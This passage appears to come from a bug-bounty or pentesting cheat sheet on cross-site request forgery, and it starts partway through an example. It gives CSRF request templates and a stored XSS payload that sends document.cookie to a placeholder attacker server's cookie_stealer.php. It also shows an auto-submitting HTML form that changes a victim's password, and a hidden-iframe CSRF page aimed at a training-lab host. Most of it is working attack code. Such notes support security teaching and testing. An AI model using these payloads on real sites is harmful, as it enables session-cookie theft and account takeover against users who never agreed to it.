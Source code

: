 ```
Cookie: session_cookie=YOUR_SESSION_COOKIE;

(POST request body)
email=ATTACKER_EMAIL&csrf_token=
```
#### Stored Self-XSS by Using CSRF Scenario
let’s say that `example.com`’s financial subdomain, finance .example.com, gives users the ability to create nicknames for each of their linked bank accounts. The account nickname field is vulnerable to self-XSS: there is no sanitization, validation, or escaping for user input on the field. However, only the user can edit and see this field, so there is no way for an attacker to trigger the XSS directly.
However, the endpoint used to change the account nicknames is vulnerable to CSRF.
The application doesn’t properly validate the existence of the CSRF token
```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE

(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```
This request will change the user’s account nickname and store the XSS payload there. 
The next time a user logs into the account and views their dashboard, they’ll trigger the XSS
#### Take Over User Accounts by Using CSRF Scenario
Sometimes CSRF can even lead to account takeover, this happen if the CSRF occurs on high impact endpoint like 
```
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=
```

this can automatically assign the password of any user who visits the malicious page
```html
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
# Exploit and Delivering the CSRF Payload

- Basic payload 
```html
<html>
    <body>
        <h1>Hunter</h1>
        <iframe style="display:none" name="hidden-frame"></iframe>
        <form action="https://target-ac941f081e38bc8480279ef400d5002f.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="hidden-frame">
            <input type="hidden" name="email" value="hunter@test.com">
            <input type="hidden" name="csrf" value="UGakAH8DD3auYLXwt2KflE921dYAdtCf">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```